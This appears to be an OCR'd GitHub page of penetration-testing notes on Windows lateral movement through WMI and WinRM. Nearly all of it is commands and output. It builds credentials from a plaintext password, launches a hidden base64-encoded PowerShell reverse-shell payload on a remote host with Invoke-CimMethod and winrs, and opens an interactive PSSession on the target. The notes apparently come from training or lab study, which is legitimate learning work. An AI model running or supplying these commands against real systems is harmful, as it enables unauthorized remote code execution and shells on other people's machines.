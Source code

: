 #### WMI and WinRM for Remote Commands and Shells

WMI is great for creating processes on a remote windows machine using either a password or hash. The authentication must be part of the Local Administrators. It uses port 135 for remote procedure calls.

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

```bash
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami